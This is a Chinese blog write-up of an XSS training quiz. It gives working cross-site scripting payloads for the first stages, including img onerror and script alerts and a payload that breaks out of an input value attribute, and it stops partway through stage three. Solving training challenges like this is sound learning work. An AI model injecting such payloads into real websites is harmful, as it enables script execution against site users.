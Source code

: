 ```yaml
---
title: XSS过关小游戏~
date: 2016-09-08 14:00:33
tags:
- XSS
- JavaScript
---
```


这个挺有意思的，日本人写的，入门XSS，感觉学到了不少！

# 第一关：
>http://xss-quiz.int21h.jp/?sid=7b714949025dc80a78855d84fc428ef4b4601ab5

```javascript
<img onerror="alert(document.domain);" src= />
```

or

```javascript
<script>alert(document.domain);</script>
```



# 第二关
>http://xss-quiz.int21h.jp/stage2.php?sid=8e7ed5afb72d0df250f54279ef8a868d8e0aafa7

先用

```javascript
<script>alert(document.domain);</script>
```

检查源码，发现，组成

```javascript
<INPUT size=50 value="<script>alert(document.domain);</script>" name=p1>
```

没有过滤，可以组合js，闭合`value=""`，进行注入！

```javascript
"><script>alert(document.domain);</script><
```

# 第三关
>http://xss-quiz.int21h.jp/stage-3.php?sid=387be4b596182a93c5eea6e6dfd85d69b23c9f82

输入：

```javascript
<script>alert(document.domain);</script>
```
源码显示：
